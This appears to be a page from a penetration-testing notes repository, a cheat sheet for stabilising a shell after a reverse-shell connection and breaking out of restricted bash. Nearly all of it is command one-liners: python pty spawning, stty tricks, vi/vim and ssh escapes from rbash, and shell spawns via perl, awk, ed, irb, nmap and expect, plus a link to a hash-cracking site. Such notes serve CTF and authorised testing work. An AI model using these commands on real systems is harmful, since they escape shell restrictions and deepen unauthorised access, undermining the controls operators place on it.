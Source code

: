 # Breakouts

==============================================================================

[**S1REN's COMMON**](Breakouts/COMMON.md)

[Reverse shells](Breakouts/Reverse%shells.md)

[CVE’s](Breakouts/CVE’s.md)

[**Privilege Escalation**](Breakouts/Privilege%Escalation.md)

[Tools](Breakouts/Tools.md)

===============================================================================

                                                                                [shell after a reverse shell connection]

===============================================================================

`shell after a reverse shell connection`

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```

```bash
python -c 'import os; os.system("/bin/sh")'
```

`Set PATH TERM and SHELL if missing:`

```bash
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

```bash
export TERM=xterm-256color;export SHELL=bash
```

```makefile
Out of the gate.

python -c 'import pty; pty.spawn("/bin/bash")'
OR
python3 -c 'import pty; pty.spawn("/bin/bash")'
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
export TERM=xterm-256color
alias ll='ls -lsaht --color=auto'
Keyboard Shortcut: Ctrl + Z (Background Process.)
stty raw -echo ; fg ; reset
stty columns 200 rows 200

 

* Grab a valid tty.
* What OS are you on? Grab access to those binaries fast by exporting each environment variable. Debian/CentOS/FreeBSD
* Want a color terminal to easily tell apart file permissions? Directories? Files?
* Fastest way to list out the files in a directory, show size, show permissions, human readable.
* Make this shell stable.

Is this rbash (Restricted Bash)? PT1
$ vi
:set shell=/bin/sh
:shell

$ vim
:set shell=/bin/sh
:shell

Is this rbash (Restricted Bash)? PT2
(This requires ssh user-level access)
ssh user@127.0.0.1 "/bin/sh"
rm $HOME/.bashrc
exit
ssh user@127.0.0.1
(Bash Shell)

Is python present on the target machine?
python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/sh")'

Is perl present on the target machine?
perl -e 'exec "/bin/bash";'
perl -e 'exec "/bin/sh";'

Is AWK present on the target machine?
awk 'BEGIN {system("/bin/bash -i")}'
awk 'BEGIN {system("/bin/sh -i")}'

Is ed present on the target machines?
ed
!sh

IRB Present on the target machine?
exec "/bin/sh"

Is Nmap present on the target machine?
nmap --interactive
nmap> !sh

Expect:

expect -v
  expect version 5.45.4
  
$ cat > /tmp/shell.sh <<EOF
#!/usr/bin/expect
spawn bash
interact
EOF

$ chmod u+x /tmp/shell.sh
$ /tmp/shell.sh
```

==================================================================================================

[Best Hash Cracker] [https://hashes.com/en/decrypt/hash](https://hashes.com/en/decrypt/hash)

---
